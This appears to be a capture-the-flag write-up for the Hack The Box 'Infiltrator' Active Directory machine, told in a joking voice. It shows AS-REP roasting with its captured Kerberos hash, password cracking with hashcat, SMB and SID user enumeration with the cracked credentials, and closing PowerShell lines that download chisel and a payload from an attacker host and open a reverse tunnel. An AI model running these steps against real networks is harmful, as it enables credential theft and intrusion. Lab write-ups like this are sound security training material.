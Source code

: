 Time to get greasy with **ASREPRoasting**. We send a lil’ love letter to the domain like “hey, gimme them sweet sweet hashies” — and boom, one account responds like “sure babe, no pre-auth needed!”. Yessir!

```console
$ GetNPUsers.py INFILTRATOR.HTB/ -dc-ip 10.10.11.31 -no-pass -usersfile all_ad_users -format hashcat
Impacket v0.11.0 - Copyright 2023 Fortra

[-] User administrator@INFILTRATOR.HTB doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User d.anderson@INFILTRATOR.HTB doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User o.martinez@INFILTRATOR.HTB doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User k.turner@INFILTRATOR.HTB doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User a.walker@INFILTRATOR.HTB doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User m.harris@INFILTRATOR.HTB doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User e.rodriguez@INFILTRATOR.HTB doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$l.clark@INFILTRATOR.HTB@INFILTRATOR.HTB:96becffa85728f8fea33be18e9ca6164$bb2614f154c83cbcd98e1f110566be9d1ea1bd44eb7041f119b22b73bbb82175e9e7b309f518c4dab0469efcb47e15a332caf0e00f82a55ad45afed64a8b923afc1f832664f1f6eba19414e6b706933d3c27a656688f59e748ba7ca64e68647bbf113d67afe8d39d39db2ae9f8bb28383bc42f48a22969d34a21599c40d1bd240a92185222100a9787ddaaa78660197a21affdccb023e9114b51797693a6a37cfc72ac9dc300b08f9bc89a9d64c522c00a3262d67b54f34d24efdb74ad9bceae2cbaa2631c4d595162f46a7c0dcbc8607e77c71986e2a435def66cfd5a3de16aee5074dfdba977dd8d037083c189d523862e
```

Turns out our girl **l.clark** out here just raw-dogging Kerberos with no protection. Naturally, we hit her with the ol’ **hashcat special**:

```console
$ hashcat -m 18200 lclark.hash $ROCKYOU
```

This hash be cracking faster than a microwave burrito — and what do we get? That’s right, keys to the kingdom. VIP access. L.clark got us in the door, and now we’re poking around like we own the place.

```console
$ nxc smb dc01.infiltrator.htb -u 'l.clark' -p 'WAT?watismypass!' --users
SMB         10.10.11.31   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.31   445    DC01             [+] infiltrator.htb\l.clark:WAT?watismypass!
```

With these creds on our hands, we blast `nxc smb` again and go full snoop-mode on the domain — enumerate all the users like it’s roll call at hacker high school. We also run a cheeky lil' SID lookup:

```console
$ lookupsid.py l.clark@INFILTRATOR.HTB | grep SidTypeUser
Password: WAT?watismypass!
500: INFILTRATOR\Administrator (SidTypeUser)
501: INFILTRATOR\Guest (SidTypeUser)
502: INFILTRATOR\krbtgt (SidTypeUser)
1000: INFILTRATOR\DC01$ (SidTypeUser)
1103: INFILTRATOR\D.anderson (SidTypeUser)
1104: INFILTRATOR\L.clark (SidTypeUser)
1105: INFILTRATOR\M.harris (SidTypeUser)
1106: INFILTRATOR\O.martinez (SidTypeUser)
1107: INFILTRATOR\A.walker (SidTypeUser)
1108: INFILTRATOR\K.turner (SidTypeUser)
1109: INFILTRATOR\E.rodriguez (SidTypeUser)
1601: INFILTRATOR\winrm_svc (SidTypeUser)
3102: INFILTRATOR\infiltrator_svc$ (SidTypeUser)
```


[dc01.infiltrator.htb]: PS C:\Users\M.harris\Documents> certutil -f -urlcache http://10.10.14.7:8000/chisel.exe C:\Windows\Temp\chisel.exe
[dc01.infiltrator.htb]: PS C:\Windows\Temp> .\chisel.exe client 10.10.14.7:8080 R:14121:127.0.0.1:14406
[10.10.11.31]: PS C:\Windows\Temp> curl.exe http://10.10.14.7:8000/payload.exe -o payload.exe